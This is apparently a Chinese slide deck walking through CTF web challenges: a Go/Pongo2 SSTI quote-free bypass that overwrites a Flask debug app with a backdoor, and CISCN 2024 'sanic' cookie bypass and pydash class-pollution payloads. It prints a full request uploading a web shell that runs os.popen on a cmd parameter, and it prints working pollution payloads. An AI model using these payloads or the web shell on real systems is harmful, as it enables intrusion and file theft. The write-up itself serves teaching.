        <div class="text-sm text-gray-700 dark:text-gray-300 leading-relaxed">
            <code>html.EscapeString</code> 函数的设计初衷是防御 XSS。
            它只转义 <code>&lt;</code>, <code>&gt;</code>, <code>&amp;</code> 等 HTML 实体，但<span class="font-bold text-green-600 dark:text-green-400">不会转义 Pongo2 模板引擎的语法符号 <code>&lcub;&lcub;</code> 和 <code>&rcub;&rcub;</code></span>。这为模板注入留下了空间。
        </div>
    </div>
    <!-- Challenge -->
    <div class="border-t-4 border-red-500 pt-4">
        <div class="flex items-center gap-2 text-xl font-bold mb-2 text-red-700 dark:text-red-400">
            <div class="i-carbon-security text-2xl"></div>
            挑战 (WAF)
        </div>
        <div class="text-sm text-gray-700 dark:text-gray-300 leading-relaxed">
            该函数会转义单引号 <code>'</code> 和双引号 <code>"</code>。这意味着我们<span class="font-bold text-red-600 dark:text-red-400">无法在注入的模板中直接使用字符串字面量</span>，例如 <code>&lcub;&lcub; c.File("/etc/passwd") &rcub;&rcub;</code> 会因为引号被转义而失效。
        </div>
    </div>
</div>

---

## Gadgets from Gin Context

[`gin.Context` 对象](https://pkg.go.dev/github.com/gin-gonic/gin#Context)暴露了大量可以被 SSTI 调用的方法。关键在于找到那些能帮我们实现“无引号”操作的方法。

<div class="border border-gray-300 dark:border-gray-600 rounded-lg overflow-hidden">
    <div class="bg-gray-100 dark:bg-gray-800 px-4 py-2 border-b border-gray-300 dark:border-gray-600 font-bold text-center">
        <code>gin.Context</code> 上的关键可利用方法
    </div>
    <div class="grid grid-cols-2 divide-x divide-gray-300 dark:divide-gray-600">
        <!-- File Operations -->
        <div class="p-2 bg-blue-50/50 dark:bg-blue-900/10">
            <div class="flex items-center gap-2 font-bold text-lg mb-4 text-blue-700 dark:text-blue-300">
                <div class="i-carbon-folder text-xl"></div>
                文件操作
            </div>
            <ul class="space-y-4 text-sm">
                <li>
                    <code class="font-bold">c.SaveUploadedFile(file, dst)</code>
                    <div class="text-gray-600 dark:text-gray-400 text-xs mt-1">写入文件到服务器。这是实现 RCE 的最终目标。</div>
                </li>
                <li>
                    <code class="font-bold">c.FormFile(name)</code>
                    <div class="text-gray-600 dark:text-gray-400 text-xs mt-1">从 <code>multipart/form-data</code> 请求体中获取上传的文件对象。</div>
                </li>
            </ul>
        </div>
        <!-- String Retrieval -->
        <div class="p-2 bg-orange-50/50 dark:bg-orange-900/10">
            <div class="flex items-center gap-2 font-bold text-lg mb-4 text-orange-700 dark:text-orange-300">
                <div class="i-carbon-string-text text-xl"></div>
                字符串获取
            </div>
            <ul class="space-y-2 text-sm">
                <li>
                    <code class="font-bold">c.Request.Header.Get("...")</code>
                    <div class="text-gray-600 dark:text-gray-400 text-xs">从请求头中获取字符串。</div>
                </li>
                <li>
                    <code class="font-bold">c.Query("...")</code>
                    <div class="text-gray-600 dark:text-gray-400 text-xs">从 URL 查询参数中获取字符串。</div>
                </li>
                <li>
                    <code class="font-bold">c.Request.UserAgent()</code>
                    <div class="text-gray-600 dark:text-gray-400 text-xs">获取 User-Agent 请求头字符串。</div>
                </li>
                <li>
                    <code class="font-bold">c.Request.Header.Accept</code> / <code class="font-bold">.Referer</code>
                    <div class="text-gray-600 dark:text-gray-400 text-xs">获取特定请求头的值（注意：这些返回的是字符串切片，需要用索引 <code>[0]</code> 访问）。</div>
                </li>
            </ul>
        </div>
    </div>
</div>

从「我们需要构造一个字符串」转变为「我能从请求的哪个部分借用一个我需要的字符串？」

---

## Flask 源码分析

我们可以通过触发报错或者 SSTI 的文件包含来得到下述内部 Flask 应用的源码：

```python {all|12}{lines:true}
from flask import Flask,request
app = Flask(__name__)


@app.route('/')
def index():
    name = request.args['name']
    return name + " no ssti"


if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
```

可以看到 Flask 应用非常简单，唯一需要关注的是 `debug=True` 参数，这会导致 Flask 应用在开发模式下运行，从而产生两种攻击面：

- 可以 LFI 原语构造 Debug Pin 从而在 Werkzeug Debugger 中执行任意代码
- 可以通过覆写 Flask Server 监听的文件触发其自动重载，从而实现我们写入的任意 Python 代码执行

---
layout: two-cols
---

## Werkzeug Debugger 是错的

在发现 Flask Debug 模式开启后，经典的攻击思路是：

1. 利用 SSRF 访问内部 Flask。
2. 利用 LFI 泄露信息计算 Debugger PIN。
3. 通过 Debugger Console 执行任意代码。

Go 应用的 SSRF 仅支持 `GET` 请求 (`http.Get`)，而 Werkzeug Debugger 执行代码强制要求 `POST` 请求。

::right::

<div class="w-full flex items-center justify-center">



</div>

---

## 构造无引号文件写入

但是我们仍然可以通过 Flask Debug 模式的第二个特性：「文件修改后自动重载」来实现 RCE。

- 调用 `c.SaveUploadedFile(file *multipart.FileHeader, dst string)`，其中：
  - `file`: 通过 `c.FormFile()` 获取
  - `dst`: 文件保存的目标路径

<div class="my-4 bg-orange-50 dark:bg-orange-900/10 border-l-4 border-orange-500 p-4 rounded text-sm font-mono break-all shadow-md">
  &lcub;&lcub; c.SaveUploadedFile(<span class="border-orange-500 border rounded px-1">c.FormFile(c.Request.Header.Accept.0)</span>, <span class="border-orange-500 border rounded px-1">c.Request.Header.Referer.0</span>) &rcub;&rcub;
</div>

<div class="text-xs text-gray-500 mb-2">
*注: <code>Accept</code> 和 <code>Referer</code> 是 HTTP Header，它们的值是<code>[]string</code>，因此需要使用索引 <code>.0</code> 来获取第一个元素。
</div>

<div class="text-sm">

| 参数 | 需要的值（类型） | 如何提供 | HTTP Header 示例 |
|---|---|---|---|
| `c.FormFile()` 的 name | 字符串 | 从 `Accept` 请求头获取 | `Accept: payload_file` |
| `SaveUploadedFile()` 的 dst | 字符串 | 从 `Referer` 请求头获取 | `Referer: /app/server.py` |

</div>
这样，我们就能精确控制文件写入的内容和位置，同时完美绕过了 `html.EscapeString` 的限制。

---

## 缝合在一起…

这里其实有个 HTTP 的 Caveat：GET 请求是可以携带 Body 的，只不过这不是特别标准的行为，但是幸运地 Gin 会解析。（RFC 2616 允许、RFC 7231 无语义定义、RFC 9110 "SHOULD NOT"）

  ```http {all}{lines:true}
  GET /admin?name={{c.SaveUploadedFile(c.FormFiwle(c.Request.UserAgent()),c.Request.UserAgent())}} HTTP/1.1
  Host: 123.56.244.196:17997
  Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...
  User-Agent: /app/server.py
  Cookie: session-name=...
  Connection: close

  ------WebKitFormBoundary...
  Content-Disposition: form-data; name="/app/server.py"; filename="server.py"
  Content-Type: text/plain

  from flask import Flask, request
  import os
  app = Flask(__name__)
  @app.route('/shell')
    def shell():
    cmd = request.args.get('cmd')   if cmd:       return os.popen(cmd).read()   else:       return 'shell'
  if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
  ------WebKitFormBoundary...--
  ```

---

## 完整攻击链

<div class="grid grid-cols-4 gap-4 mt-10">
  <!-- Step 1 -->
  <div class="border border-gray-200 dark:border-gray-700 rounded-lg p-2 m-2 bg-white dark:bg-gray-800 shadow-sm relative flex flex-col items-center">
    <div class="flex justify-center mb-4 text-blue-600 dark:text-blue-400">
      <div class="i-carbon-http text-4xl" />
    </div>
    <div class="font-bold text-center mb-2">构造恶意请求</div>
    <ul class="text-xs text-gray-600 dark:text-gray-400 space-y-1 list-disc pl-3 w-full text-left">
      <li><b>Cookie:</b> 伪造的管理员会话</li>
      <li><b>URL:</b> <code>GET /admin?name=&lcub;&lcub;...&rcub;&rcub;</code></li>
      <li><b>Headers:</b> <br/><code><b>Accept:</b> payload_file</code><br/><code><b>Referer:</b> /app/server.py</code></li>
      <li><b>Body:</b> <code>multipart/form-data</code> with malicious Flask code</li>
    </ul>
    <!-- Arrow -->
    <div class="absolute -right-8 top-1/2 -translate-y-1/2 text-gray-300 dark:text-gray-600 z-10">
      <div class="i-carbon-arrow-right text-3xl" />
    </div>
  </div>
  <!-- Step 2 -->
  <div class="border border-gray-200 dark:border-gray-700 rounded-lg p-2 m-2 bg-white dark:bg-gray-800 shadow-sm relative flex flex-col items-center">
    <div class="flex justify-center mb-4 text-orange-600 dark:text-orange-400">
      <div class="i-carbon-document-import text-4xl" />
    </div>
    <div class="font-bold text-center mb-2">触发文件覆盖</div>
    <div class="text-xs text-gray-600 dark:text-gray-400 text-center">
      Go 应用执行模板，<br/><code class="text-red-500 font-bold">SaveUploadedFile</code> 被调用，恶意的 <code class="text-orange-500 font-bold">server.py</code> 覆盖原始文件。
    </div>
    <!-- Arrow -->
    <div class="absolute -right-8 top-1/2 -translate-y-1/2 text-gray-300 dark:text-gray-600 z-10">
      <div class="i-carbon-arrow-right text-3xl" />
    </div>
  </div>
  <!-- Step 3 -->
  <div class="border border-gray-200 dark:border-gray-700 rounded-lg p-2 m-2 bg-white dark:bg-gray-800 shadow-sm relative flex flex-col items-center">
    <div class="flex justify-center mb-4 text-purple-600 dark:text-purple-400">
      <div class="i-carbon-restart text-4xl" />
    </div>
    <div class="font-bold text-center mb-2">Flask 自动重载</div>
    <div class="text-xs text-gray-600 dark:text-gray-400 text-center">
      Debug 模式监测到文件变更，自动重载服务，后门代码生效。
    </div>
    <!-- Arrow -->
    <div class="absolute -right-8 top-1/2 -translate-y-1/2 text-gray-300 dark:text-gray-600 z-10">
      <div class="i-carbon-arrow-right text-3xl" />
    </div>
  </div>
  <!-- Step 4 -->
  <div class="border border-gray-200 dark:border-gray-700 rounded-lg p-2 m-2 bg-white dark:bg-gray-800 shadow-sm flex flex-col items-center">
    <div class="flex justify-center mb-4 text-green-600 dark:text-green-400">
      <div class="i-carbon-terminal text-4xl" />
    </div>
    <div class="font-bold text-center mb-2">通过 SSRF 执行命令</div>
    <div class="text-xs text-gray-600 dark:text-gray-400 text-center">
      再次访问 <code class="bg-gray-100 dark:bg-gray-700 px-1 rounded">/flask</code> 路由，触发后门：<br/>
      <div class="mt-2 bg-gray-100 dark:bg-gray-700 p-1 rounded font-mono text-[10px] break-all">
        GET /flask?name=/shell?cmd=cat /flag
      </div>
      成功获取 Flag。
    </div>
  </div>
</div>

---
layout: center
transition: fade-out
---

# CISCN 2024 sanic

Tags: <Tag color="green">Source Audit</Tag> <Tag color="blue">Python Class Pollution</Tag> <Tag color="purple">Sanic Web Server</Tag>

<style>
h1 {
  background-color: #2B90B6;
  background-image: linear-gradient(45deg, #4EC5D4 10%, #146b8c 20%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent;
  -moz-text-fill-color: transparent;
}
</style>

---

## 题目源码

```python {all|4-5|13-15|23-30|38-50|all}{lines:true, maxHeight:'90%'}
from sanic import Sanic
from sanic.response import text, html
from sanic_session import Session
import pydash
# pydash==5.1.2


class Pollute:
    def __init__(self):
        pass


app = Sanic(__name__)
app.static("/static/", "./static/")
Session(app)


@app.route('/', methods=['GET', 'POST'])
async def index(request):
    return html(open('static/index.html').read())


@app.route("/login")
async def login(request):
    user = request.cookies.get("user")
    if user.lower() == 'adm;n':
        request.ctx.session['admin'] = True
        return text("login success")

    return text("login fail")


@app.route("/src")
async def src(request):
    return text(open(__file__).read())


@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")
    return text("forbidden")


if __name__ == '__main__':
    app.run(host='0.0.0.0')

```

---

## 关键代码审计

<div class="grid grid-cols-2 gap-x-8 mt-4">

<div>

### `/login` 路由

```python {3|4}
@app.route("/login")
async def login(request):
    user = request.cookies.get("user")
    if user.lower() == 'adm;n':
        request.ctx.session['admin'] = True
        return text("login success")
    return text("login fail")
```

<div class="space-y-4 mt-4">
  <div class="flex gap-2 items-start text-sm">
    <div class="text-red-500 font-bold text-lg">1.</div>
    <div class="text-gray-600 dark:text-gray-400">从 Cookie 中获取 <code>user</code> 字段。</div>
  </div>
  <div class="flex gap-2 items-start text-sm">
    <div class="text-red-500 font-bold text-lg">2.</div>
    <div class="text-gray-600 dark:text-gray-400">关键验证逻辑。要求 <code>user</code> 字段的小写形式必须精确匹配 <code>adm;n</code>。</div>
  </div>

  <div class="bg-gray-50 dark:bg-gray-800 p-4 rounded-lg border-l-4 border-red-500 text-sm">
    <div class="font-bold text-gray-700 dark:text-gray-300 mb-1">分析</div>
    <div class="text-gray-600 dark:text-gray-400 leading-relaxed">
      HTTP Cookie 标准中，分号（<code>;</code>）是分隔符。如何将包含分号的字符串 <code>adm;n</code> 作为一个完整的 Cookie 值传递给应用层？
    </div>
  </div>
</div>

</div>

<div>

### `/admin` 路由

```python {6|8}
@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")
    return text("forbidden")
```

<div class="space-y-4 mt-4">
  <div class="flex gap-2 items-start text-sm">
    <div class="text-red-500 font-bold text-lg">1.</div>
    <div class="text-gray-600 dark:text-gray-400">
      <span class="font-bold">漏洞核心</span>。使用用户可控的 <code>key</code> 和 <code>value</code> 对 <code>Pollute</code> 实例进行深度属性设置。这是原型链污染的入口。
    </div>
  </div>
  <div class="flex gap-2 items-start text-sm">
    <div class="text-red-500 font-bold text-lg">2.</div>
    <div class="text-gray-600 dark:text-gray-400">
      <span class="font-bold">一个简陋的 WAF</span>。它试图通过过滤 <code>_</code> 和 <code>.</code> 的组合来阻止常见的原型链污染 payload (如 <code>__class__</code> 等)。
    </div>
  </div>
</div>

</div>

</div>
---
layout: default
---

## Step 1: Authentication Bypass

[sanic-org/sanic@main: /sanic/cookies/request.py#L16-L47](https://github.com/sanic-org/sanic/blob/main/sanic/cookies/request.py#L16-L47) （♿：[DeepWiki](https://deepwiki.com/search/please-demonstrate-me-how-sani_698a36f1-63b8-4ea6-859c-880aec50c43c?mode=fast)）

<div class="grid grid-cols-2 gap-8">

<div class="border-orange-500 dark:border-orange-400 border-b-2 p-2 rounded-lg">
  <div class="font-bold mb-2">核心问题：如何让服务器应用层正确接收到 <code>adm;n</code> 这一 Cookie 值？</div>
  <div class="text-sm text-gray-600 dark:text-gray-400">
    直接发送 <code>Cookie: user=adm;n</code> 会被 HTTP 解析器视为两个独立的 Cookie: <code>user=adm</code> 和 <code>n</code>。
  </div>
</div>

<div class="border-orange-500 dark:border-orange-400 border-b-2 p-2 rounded-lg">
  <div class="font-bold mb-2">解决方案：利用八进制转义</div>
  <div class="text-sm text-gray-600 dark:text-gray-400">
    分号 (<code>;</code>) 的 ASCII 值为 59，其八进制表示为 <code>\073</code>。<br>
    构造特殊的 Cookie 值：<code>user="adm\073n"</code>。
  </div>
</div>

</div>

<!-- Process Diagram -->
<div class="flex items-center justify-between my-4 gap-2">
  <!-- Attacker -->
  <div class="flex flex-col items-center gap-2">
    <div class="i-carbon-laptop text-4xl"></div>
    <div class="font-bold text-sm">Attacker</div>
  </div>

  <div class="bg-white dark:bg-gray-800 border border-gray-300 dark:border-gray-600 rounded p-2 text-xs shadow-sm">
    <div class="text-gray-500 mb-1">Cookie:</div>
    <code class="font-bold">user="adm\073n"</code>
  </div>

  <div class="i-carbon-arrow-right text-2xl text-gray-400"></div>

  <!-- WSGI/Sanic -->
  <div class="flex flex-col items-center bg-orange-50 dark:bg-orange-900/20 border border-orange-200 dark:border-orange-800 rounded-lg p-3">
    <div class="text-xs font-bold text-orange-800 dark:text-orange-200 mb-2">WSGI/Sanic 解析层</div>
    <div class="flex items-center gap-4">
       <div class="flex flex-col items-center">
         <div class="text-xl mb-1">🧐</div>
         <div class="text-xs font-mono">\073</div>
         <div class="text-xs font-mono">"adm\073n"</div>
       </div>
       <div class="i-carbon-arrow-right text-gray-400"></div>
       <div class="flex flex-col items-center">
         <div class="text-2xl font-bold">;</div>
         <div class="text-xs font-mono">"adm;n"</div>
       </div>
    </div>
  </div>

  <div class="i-carbon-arrow-right text-2xl text-gray-400"></div>

  <!-- Logic Layer -->
  <div class="bg-white dark:bg-gray-800 border border-gray-300 dark:border-gray-600 rounded-lg p-3 text-center min-w-[120px]">
    <div class="text-xs font-bold text-gray-500 mb-2">应用逻辑层</div>
    <div class="text-xs text-gray-500">接收到字符串</div>
    <div class="font-bold text-lg font-mono text-purple-600 dark:text-purple-400">adm;n</div>
  </div>

  <div class="i-carbon-arrow-right text-2xl text-gray-400"></div>

  <!-- Validation -->
  <div class="bg-green-50 dark:bg-green-900/20 border border-green-200 dark:border-green-800 rounded-lg p-3 flex flex-col items-center min-w-[200px]">
    <div class="text-xs font-mono text-green-800 dark:text-green-200 mb-2">user.lower() == 'adm;n'</div>
    <div class="i-carbon-checkmark-filled text-2xl text-green-500"></div>
  </div>
</div>

<div class="text-sm">

1. 请求发送：攻击者在 HTTP 请求头中构造 `Cookie: user="adm\073n"`。
2. 底层解析：Sanic 框架在处理 HTTP 请求头时，会首先解析八进制转义序列。
    - `\073` 在这一层被解码为其对应的 ASCII 字符，即分号 (`;`)。
3. 应用层接收：当请求传递到 `/login` 路由的应用逻辑时获取到的已经是被解码后的完整字符串 `adm;n`。
4. 验证通过：`user.lower() == 'adm;n'` 条件成立，服务器返回 "login success" 并设置管理员会话。

</div>

---

## 理解 Python 中的「类污染」

虽然 Python 没有 JavaScript 的原型链，但其动态特性允许实现一种效果类似的攻击，我们称之为「类污染」 _(Class Pollution)_。Ref: [1](https://tttang.com/archive/1876/) [2](https://blog.abdulrah33m.com/prototype-pollution-in-python/)

<div class="grid grid-cols-2 gap-4 text-sm">
  <!-- JS Prototype Pollution -->
  <div class="border border-gray-300 dark:border-gray-600 rounded-lg overflow-hidden">
    <div class="bg-orange-200 dark:bg-orange-800 p-2 font-bold text-center border-b border-gray-300 dark:border-gray-600">JavaScript 原型链污染</div>
    <div class="p-2 bg-white dark:bg-black/20">
      <div class="flex items-center justify-center gap-2 mb-4">
        <div class="border px-2 py-1 rounded bg-white dark:bg-gray-700">Instance</div>
        <div class="i-carbon-arrow-right text-gray-400"></div>
        <div class="font-mono text-xs text-orange-500">__proto__</div>
        <div class="i-carbon-arrow-right text-gray-400"></div>
        <div class="border px-2 py-1 rounded bg-white dark:bg-gray-700">Object.prototype</div>
      </div>
      <p class="text-xs text-gray-600 dark:text-gray-400 leading-relaxed">
        通过 <code>__proto__</code> 或 <code>constructor.prototype</code> 修改 <code>Object.prototype</code>。
        污染会影响所有继承自 Object 的对象实例。
      </p>
    </div>
  </div>

  <!-- Python Class Pollution -->
  <div class="border border-gray-300 dark:border-gray-600 rounded-lg overflow-hidden">
    <div class="bg-sky-200 dark:bg-sky-800 p-2 font-bold text-center border-b border-gray-300 dark:border-gray-600">Python 类污染</div>
    <div class="p-2 bg-white dark:bg-black/20">
      <div class="flex items-center justify-center gap-2 mb-4 text-xs">
        <div class="border px-2 py-1 rounded bg-white dark:bg-gray-700">Instance</div>
        <div class="flex flex-col items-center">
           <div class="font-mono text-[10px] text-orange-500">__class__</div>
           <div class="i-carbon-arrow-right text-gray-400"></div>
        </div>
        <div class="border px-2 py-1 rounded bg-white dark:bg-gray-700">Class</div>
        <div class="flex flex-col items-center">
           <div class="font-mono text-[10px] text-orange-500">__base__</div>
           <div class="i-carbon-arrow-right text-gray-400"></div>
        </div>
        <div class="border px-2 py-1 rounded bg-white dark:bg-gray-700">Parent Class</div>
      </div>
      <p class="text-xs text-gray-600 dark:text-gray-400 leading-relaxed">
        利用 Python 对象在运行时可被修改的特性。通过特殊的“魔术属性” (dunder attributes) 如 <code>__class__</code> 和 <code>__base__</code> 来向上追溯并修改类的属性。污染会影响所有该类及其子类的现有和未来实例。
      </p>
    </div>
  </div>
</div>

<div class="mt-4 border border-gray-300 dark:border-gray-600 rounded p-2 flex justify-center bg-gray-50 dark:bg-gray-800/50">
  <div class="flex items-center gap-4 text-xs">
    <div class="border border-gray-400 bg-white dark:bg-gray-700 px-2 py-1 rounded flex items-center gap-1">
      <div class="i-carbon-function"></div>
      some_func
    </div>
    <div class="i-carbon-arrow-right text-gray-400">__globals__</div>
    <div class="border border-gray-400 bg-white dark:bg-gray-700 p-2 rounded flex gap-4">
      <div class="font-bold border-b mb-1 pb-1 w-full text-center">Global Scope</div>
      <div class="flex gap-2">
        <div class="border px-1 rounded flex items-center gap-1"><div class="i-carbon-box"></div> os_module</div>
        <div class="border px-1 rounded flex items-center gap-1"><div class="i-carbon-chevron-right"></div> app_variable</div>
        <div class="border px-1 rounded flex items-center gap-1"><div class="i-carbon-layers"></div> SomeOtherClass</div>
      </div>
    </div>
  </div>
</div>

<div class="text-sm mt-2">

- `instance.__class__`: 获取实例所属的类。相当于 JS 中的 `instance.constructor`。
- `SomeClass.__base__`: 获取类的直接父类。通过链式调用 `__base__.__base__` 可以追溯整个继承链。
- `function.__globals__`: 一个关键的“任意门”。它是一个字典，包含了函数定义时所在模块的所有全局变量，包括导入的模块、定义的类和变量。这使得攻击者可以跨越继承关系，污染全局范围内的任何可变对象。

</div>

---

## Step 2: 深入 pydash 内部规避 WAF 侦测

[dgilland/pydash@v5.1.2: /src/pydash/objects.py#L1599](https://github.com/dgilland/pydash/blob/v5.1.2/src/pydash/objects.py#L1599)

<div>
  <div class="text-sm space-y-1">
    <div class="flex items-center gap-2">
      <div class="i-carbon-security text-orange-500"></div>
      <span class="font-bold">WAF 规则:</span> <code class="bg-red-100 dark:bg-red-900/30 text-red-600 dark:text-red-400 px-1 rounded">'_.' not in key</code>
    </div>
    <div class="flex items-center gap-2">
      <div class="i-carbon-idea text-yellow-500"></div>
      <span class="font-bold">目标:</span> 构造一个不含 <code>_.</code> 字符串的 key，但其解析后的路径又能包含 <code>__...__</code> 这样的魔术属性。
    </div>
  </div>
</div>

<div class="text-sm my-2">

- WAF 失效的根源：表层检测 vs. 内部解析
  - WAF 仅仅对输入的原始字符串 key 进行简单的子字符串匹配。
  - pydash 在内部会调用 `to_path_tokens` 函数，将路径字符串 (如 `'a.b["c"]'`) 分解为路径令牌 (tokens) 数组 (如 `['a', 'b', 'c']`)。
  - 攻击的关键在于，找到一种 `pydash` 支持但 WAF 规则未覆盖的路径表示法。

</div>

<div class="border border-gray-300 dark:border-gray-600 rounded-lg overflow-hidden text-xs">
  <table class="w-full">
    <thead>
      <tr class="bg-gray-100 dark:bg-gray-800 border-b border-gray-300 dark:border-gray-600">
        <th class="text-left">Payload (key)</th>
        <th class="text-left">WAF Check</th>
        <th class="text-left">pydash 解析</th>
      </tr>
    </thead>
    <tbody>
      <tr class="border-b border-gray-200 dark:border-gray-700">
        <td class="font-mono">key = '__class__.__init__...'</td>
        <td class="text-red-600 font-bold"><div class="i-carbon-close-filled inline-block mr-1"></div> 失败 (包含 `_.` 字符串)</td>
        <td class="text-gray-500 italic"><div class="i-carbon-stop-sign inline-block mr-1"></div> 解析受阻</td>
      </tr>
      <tr>
        <td class="font-mono bg-green-50 dark:bg-green-900/10">key = '__class__<span class="text-red-500 font-bold">\\</span>.__init__...'</td>
        <td class="text-green-600 font-bold"><div class="i-carbon-checkmark-filled inline-block mr-1"></div> 通过 (不包含 `_.` 字符串)</td>
        <td>
          <div class="flex items-center gap-2">
            <div class="i-carbon-settings text-gray-400"></div>
            <code class="bg-gray-100 dark:bg-gray-800 px-1 rounded text-red-500">\\.</code>
            <div class="i-carbon-arrow-right text-gray-400"></div>
            <code class="bg-gray-100 dark:bg-gray-800 px-1 rounded">.</code>
            <div class="text-xs text-gray-500 ml-2">
              unescape_path_key 转换<br/>
              成功构造路径令牌: <code>['__class__', '__init__', ...]</code>
            </div>
          </div>
        </td>
      </tr>
    </tbody>
  </table>
</div>

<div class="text-sm my-2">

- **绕过思路**：WAF 检查 `_.`。我们可以构造包含 `\\.` 的 key。在 WAF 检查时，由于 `\\.` 不等于 `_.`，检查通过。当 pydash 解析时，`unescape_path_key` 会将 `\\.` 转换回 `.`，从而成功构造含有下划线和点的路径组件。

</div>

---
layout: default
---

## Step 3: 构造污染载荷，实现任意文件读取

**核心目标**：找到一个 Gadget —— 即在污染发生后，应用代码会读取并使用的某个属性。在本例中，目标是 Sanic 的静态文件处理逻辑：[sanic-org/sanic@main: /sanic/mixins/static.py#L31](https://github.com/sanic-org/sanic/blob/main/sanic/mixins/static.py#L31)

通过几次独立的 POST `/admin` 请求，逐步修改 Sanic 路由对象的属性，最终将静态文件服务指向根目录并开启目录浏览。

- Payload 1: 开启目录浏览

```json
{"key":"__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory_view", "value": true}
```

<div class="scale-90 origin-left">



</div>

<div class="grid grid-cols-2 gap-4 mt-2">

<!-- Left Column -->
<div class="flex flex-col">

- Payload 2: 改变静态文件根目录

```json
{"key":"__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.file_or_directory", "value": "/"}
```

- Payload 3 (备用/补充)：直接修改目录 `Path` 对象

```json
{"key":"__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory._parts", "value": ["/"]}
```

</div>

<!-- Right Column -->
<div class="flex flex-col gap-4">

<div class="text-sm bg-green-50 dark:bg-green-900/10 p-4 rounded-lg border border-green-200 dark:border-green-800">
  <span class="font-bold text-green-700 dark:text-green-400">攻击效果：</span><br/>
  发送以上 payload 后，访问 <code>/static/</code> 路由，服务器将返回根目录 <code>/</code> 的文件列表，从而可以找到并下载 flag 文件。
</div>

</div>

</div>

---

## 完整攻击链

<div class="grid grid-cols-[1.4fr_auto_1.4fr] gap-x-4 gap-y-2 items-center text-xs mt-2">

  <!-- ROW 1: Session Escalation -->
  <!-- Left: Request -->
  <div>
    <div class="font-bold mb-1 text-sm">请求</div>
    <div class="bg-[#1e1e1e] text-[#d4d4d4] p-2 rounded font-mono border border-gray-700 shadow-lg leading-tight">
      <div><span class="text-[#569cd6]">GET</span> /login HTTP/1.1</div>
      <div><span class="text-[#9cdcfe]">Host</span>: &lt;TARGET_IP&gt;:&lt;PORT&gt;</div>
      <div><span class="text-[#9cdcfe]">Cookie</span>: user=adm\073n</div>
      <div class="text-[#6a9955]">...</div>
    </div>
  </div>

  <!-- Center: Flow 1 -->
  <div class="flex flex-col items-center justify-center relative h-full">
    <!-- Horizontal Arrow -->
    <div class="absolute w-[200%] h-[2px] bg-gray-300 dark:bg-gray-600 -z-10"></div>
    <div class="w-8 h-8 rounded-full bg-slate-600 text-white flex items-center justify-center font-bold z-10 ring-4 ring-white dark:ring-[#121212]">1</div>
    <!-- Vertical Line Down -->
    <div class="absolute top-1/2 left-1/2 w-[2px] h-[calc(100%+4rem)] bg-gray-300 dark:bg-gray-600 -ml-[1px] -z-20"></div>
  </div>

  <!-- Right: Response -->
  <div>
    <div class="font-bold mb-1 text-sm">预期响应</div>
    <ul class="list-disc pl-4 space-y-1 text-gray-700 dark:text-gray-300">
      <li>HTTP 状态码: 200 OK</li>
      <li>响应体: <code>login success</code></li>
      <li>服务器在会话中设置 <code>admin=True</code> 标志。</li>
    </ul>
  </div>

  <!-- ROW 2: Pollution & File Read -->
  <!-- Left: Requests -->
  <div class="flex flex-col gap-2 relative">
    <div class="font-bold mb-1 text-sm">请求</div>
    <div class="bg-[#1e1e1e] text-[#d4d4d4] p-2 rounded font-mono border border-gray-700 shadow-lg leading-tight">
      <div><span class="text-[#569cd6]">POST</span> /admin HTTP/1.1</div>
      <div class="text-[#6a9955]">...</div>
      <div class="text-[#ce9178] break-all">{"key":"__init__\\...\\directory_view", "value": true}</div>
    </div>
    <div class="bg-[#1e1e1e] text-[#d4d4d4] p-2 rounded font-mono border border-gray-700 shadow-lg leading-tight">
      <div><span class="text-[#569cd6]">POST</span> /admin HTTP/1.1</div>
      <div class="text-[#6a9955]">...</div>
      <div class="text-[#ce9178] break-all">{"key":"__init__\\...\\file_or_directory", "value": "/"}</div>
    </div>
    <!-- Bracket visual -->
    <div class="absolute -right-4 top-8 bottom-2 w-3 border-r-2 border-t-2 border-b-2 border-gray-300 dark:border-gray-600 rounded-r"></div>
  </div>

  <!-- Center: Flow 2 -->
  <div class="flex flex-col items-center justify-center relative h-full">
    <!-- Horizontal Line -->
    <div class="absolute w-[80%] right-0 h-[2px] bg-gray-300 dark:bg-gray-600 -z-10"></div>
    <div class="w-8 h-8 rounded-full bg-slate-600 text-white flex items-center justify-center font-bold z-10 ring-4 ring-white dark:ring-[#121212]">2</div>
    <!-- Vertical Line Down -->
    <div class="absolute top-1/2 left-1/2 w-[2px] h-[calc(100%+4rem)] bg-gray-300 dark:bg-gray-600 -ml-[1px] -z-20"></div>
  </div>

  <!-- Right: Response -->
  <div>
    <div class="font-bold mb-1 text-sm">预期响应</div>
    <ul class="list-disc pl-4 space-y-1 text-gray-700 dark:text-gray-300">
      <li>HTTP 状态码: 200 OK</li>
      <li>响应体: <code>success</code></li>
    </ul>
  </div>

  <!-- ROW 3: Get Flag -->
  <!-- Left: Requests -->
  <div class="flex flex-col gap-2 relative">
    <div class="font-bold mb-1 text-sm">请求</div>
    <div class="bg-[#1e1e1e] text-[#d4d4d4] p-2 rounded font-mono border border-gray-700 shadow-lg leading-tight">
      <div><span class="text-[#569cd6]">GET</span> /static/ HTTP/1.1</div>
      <div class="text-[#6a9955]">...</div>
    </div>
    <div class="bg-[#1e1e1e] text-[#d4d4d4] p-2 rounded font-mono border border-gray-700 shadow-lg leading-tight">
      <div><span class="text-[#569cd6]">GET</span> /static/24bc...flag HTTP/1.1</div>
      <div class="text-[#6a9955]">...</div>
    </div>
     <!-- Bracket visual -->
    <div class="absolute -right-4 top-8 bottom-2 w-3 border-r-2 border-t-2 border-b-2 border-gray-300 dark:border-gray-600 rounded-r"></div>
  </div>

